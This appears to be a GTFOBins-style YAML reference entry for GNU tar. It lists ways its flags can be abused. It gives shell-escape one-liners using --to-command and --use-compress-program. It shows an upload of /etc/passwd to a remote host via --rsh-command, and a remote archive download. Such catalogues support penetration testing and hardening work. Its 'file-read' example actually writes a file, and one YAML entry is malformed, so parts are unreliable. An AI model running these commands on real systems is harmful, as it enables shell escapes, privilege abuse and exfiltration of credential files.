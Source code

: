 ```yaml
---
functions:
  shell:
    - description: The --to-command is normally used to pipe extracted files to a command. This can be used to run arbitrary commands on a host. The file must be a valid archive file.
    - code: |
        tar xf /tmp/valid.tar --to-command='/bin/sh -c "sh <&2 1>&2"'
    - description: Similar to the above, but at a previous stage in the extraction. A valid archive is not required. This functionality can be abused in various ways for file-read and file-write (see below).
      code: |
        tar xf /dev/null --use-compress-program='/bin/sh -c "sh <&2 1>&2"'
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf remote_user@remote_host.com:/tmp/remote_file.tar /etc/passwd --rsh-command=/bin/ssh
  file-download:
    - description: GNU tar has remote archive capabilities, which can be used to download and extract remote archives. The remote machine should have the `rmt` utility installed and configured.
      code: | tar xvf remote_user@remote_host.com:/tmp/remote_file --rsh-command=/bin/ssh
  file-read:
    - description: The --use-compress-program flag can be abused to read files.
      code: |
        tar xf /etc/passwd --use-compress-program='/bin/sh -c "echo hello > /tmp/file"'
---
```

